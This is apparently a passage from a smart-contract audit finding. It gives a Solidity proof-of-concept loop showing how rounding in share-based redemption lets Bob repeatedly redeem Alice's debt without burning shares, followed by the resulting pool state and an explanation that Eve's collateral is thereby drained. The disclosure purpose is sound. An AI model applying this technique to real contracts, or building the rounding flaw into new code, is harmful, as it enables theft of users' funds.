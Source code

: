 ```
    function redeem() public {
        uint256 toBeRedeemed;
        uint256 requiredShares;
        _totalSupply = 14200e18 + 1;
        _totalShares = 67;
        shares[Bob] = 1;
        shares[Alice] = 19;
        shares[Eve] = 47;
        borrowed[Bob] = 200e18 + 1;
        borrowed[Alice] = 4000e18;
        borrowed[Eve] = 10000e18;

        while (true) {
            num++;
            toBeRedeemed = (_totalSupply % _totalShares == 0)
                ? (_totalSupply / _totalShares) - 1
                : (_totalSupply / _totalShares);
            requiredShares = (toBeRedeemed * _totalShares) / _totalSupply;
            if (toBeRedeemed > borrowed[Alice]) {
                break;
            }
            borrowed[Alice] -= toBeRedeemed;
            _totalSupply -= toBeRedeemed;
            _totalShares -= requiredShares;
            shares[Bob] -= requiredShares;
            bobGain += toBeRedeemed;
        }
    }
}

```
After redeeming Alice 23 times, the state will be:
   - `shares[Bob] = 1`
   - `_totalShares = 20 + 47 = 67`
   - `_totalSupply = 10200.2e18`
   - `borrowed[Bob] = 200e18 + 1`
   - `poolTotalEUSDCirculation = 10200.2e18 + 1`
   - `depositAsset[Bob] = 1e18`
   - `totalDepositedAsset = 27e18`
   - `stETH.balanceOf(protocol) = 27e18`
   - `shares[Alice] = 19`
   - `borrowed[Alice] = 2.1e17`
   - `depositAsset[Alice] = 6e18`
   - `shares[Eve] = 47`
   - `borrowed[Eve] = 10000e18`
   - `depositAsset[Eve] = 20e18`

  Now if Eve wants to repay her whole borrowed amount, she should burn almost 65 shares: `10000e18 * 67 / 10200e18`, but she has only 47 shares. So, she can only repay at most 7155e18 of her borrow. It means that Eve's fund is stolen by Bob. In other words, the collateralized ETH are taken by Bob without burning any shares, so the left shares do not have enough ETH backed.
